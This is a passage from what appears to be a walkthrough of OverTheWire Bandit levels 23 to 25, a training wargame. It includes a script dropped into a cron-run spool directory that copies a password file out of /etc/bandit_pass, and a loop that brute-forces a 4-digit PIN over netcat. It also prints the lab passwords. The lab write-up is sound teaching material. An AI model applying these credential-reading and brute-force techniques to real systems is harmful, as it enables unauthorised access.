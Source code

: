         echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done ")
* **mkdir /tmp/teambios** (making a directory in tmp directory)
* **cd /tmp/teambios** (getting inside the new directory)
* **vim bios.sh** (creating an executable script which is to be executed in the /var/spool/bandit24 and will output the password to a file in tmp direcotry 
"#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bios123")
* **chmod 777 bios.sh** (giving all read,write,execute permission to everyone)
* **ls -l bios.sh** (confirming the permissions)
* **cp bios.sh /var/spool/bandit24** (copying the executable to the target directory where it will be executed and the password will be outputed to the /tmp/bios123. Wait for 60 seconds as the execution takes place only after every 60 seconds . after 60 seconds)
* **cat /tmp/bios123** (password got)
* **exit** (we got the password hence we are exiting from the server)

![](https://raw.githubusercontent.com/NARIKODANHRIDUL/test/main/level%2023%20ss%201.png)
**Fig :** terminal screenshot for level 23 (to convey how I used command, more clearly)
>password =  **UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ**
***

#### **Level 24**
##### A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
* **ssh bandit24@bandit.labs.overthewire.org -p2220** ( to login into the server type "ssh <username>@<host> -p<port> )
* **UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ**  (password)
* **nc localhost 30002** ("I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.")
* **cd /tmp/bios** (getting inside a direcotry which was already created)
* **nano bandit.sh** (creating a shell script to make a trial and error for all cases from 0 - 9999 as a 4digit code for nc localhost 30002
 " #!/bin/bash
for pin in {0000..9999} : 
do
	echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $pin"
done | nc localhost 30002 ")
* **./bandit.sh** (running the shell script)
* **exit** (we got the pssword hence we are exiting from the server)

![](https://raw.githubusercontent.com/NARIKODANHRIDUL/test/main/level%2024%20ss%201.png)
after many "Wrong! Please enter the correct pincode. Try again."
![](https://raw.githubusercontent.com/NARIKODANHRIDUL/test/main/level%2024%20ss%202.png)
**Fig :** terminal screenshot for level 24 (to convey how I used command, more clearly)
>password =  **uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG**
***
#### **Level 25**
##### Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.